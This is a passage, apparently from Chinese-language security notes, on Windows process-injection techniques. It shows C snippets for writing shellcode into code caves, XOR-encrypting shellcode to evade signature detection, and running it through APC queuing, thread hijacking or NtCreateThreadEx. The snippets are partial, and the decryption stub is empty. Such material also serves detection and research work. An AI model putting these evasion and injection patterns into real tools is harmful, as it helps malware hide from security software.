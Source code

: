 **Code Cave**: 程序内存中未使用的空间

```c
// 不分配新内存，使用现有模块的空隙
LPVOID codeCave = FindCodeCave(hProcess, shellcodeSize);
WriteProcessMemory(hProcess, codeCave, shellcode, size, NULL);
CreateRemoteThread(hProcess, NULL, 0, codeCave, NULL, 0, NULL);
```

**优势**:
- 不调用 VirtualAllocEx
- Shellcode 位于合法模块内

**劣势**:
- Code cave 可能不够大
- 可能破坏原有代码

### 3. Shellcode 加密

**绕过签名检测**:

```c
// 加密 shellcode
unsigned char encrypted[] = XOR_Encrypt(shellcode, key);

// 写入加密的 shellcode
WriteProcessMemory(hProcess, mem, encrypted, size, NULL);

// 注入解密 stub
unsigned char stub[] = {
    // for (i = 0; i < size; i++) mem[i] ^= key;
    // jmp mem
};
WriteProcessMemory(hProcess, mem2, stub, sizeof(stub), NULL);
CreateRemoteThread(hProcess, NULL, 0, mem2, NULL, 0, NULL);
```

### 4. 替代 CreateRemoteThread

**更隐蔽的执行方法**:

```c
// 方法 1: QueueUserAPC
HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, threadId);
QueueUserAPC((PAPCFUNC)shellcodeAddr, hThread, 0);

// 方法 2: SetThreadContext (Thread Hijacking)
GetThreadContext(hThread, &ctx);
ctx.Rip = (DWORD64)shellcodeAddr;
SetThreadContext(hThread, &ctx);
ResumeThread(hThread);

// 方法 3: NtCreateThreadEx
pNtCreateThreadEx(..., shellcodeAddr, ...);
```
